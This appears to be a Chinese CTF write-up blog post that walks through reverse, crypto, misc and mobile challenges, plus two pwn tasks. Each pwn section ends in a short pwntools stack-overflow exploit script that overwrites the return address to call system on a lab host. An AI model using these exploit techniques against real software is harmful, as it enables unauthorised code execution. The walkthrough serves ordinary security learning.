 ```yaml
---
title: 记一次不知名比赛的WP
tags:
  - 比赛
  - CTF
category: WriteUP
permalink: /archives/10397/
published: 2023-06-24 01:28:52
---
```

# Reverse

## Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](./images/image-20230620090120146.png)

# Crypto

## easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](./images/image-20230620094549028.png)

# Misc

## medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](./images/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](./images/image-20230620094222386.png)

![image-20230620094242228](./images/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](./images/image-20230620094305264.png)

## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](./images/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](./images/image-20230620121956543.png)

# Pwn

## easily_pwn_1

程序分析：64位程序，开启了NX保护

![image-20230620140607482](./images/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](./images/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](./images/屏幕截图 2023-06-20 140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](./images/屏幕截图 2023-06-20 141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了NX保护

![image-20230620141634557](./images/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](./images/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](./images/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](./images/image-20230620142144275.png)

![image-20230620142020421](./images/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
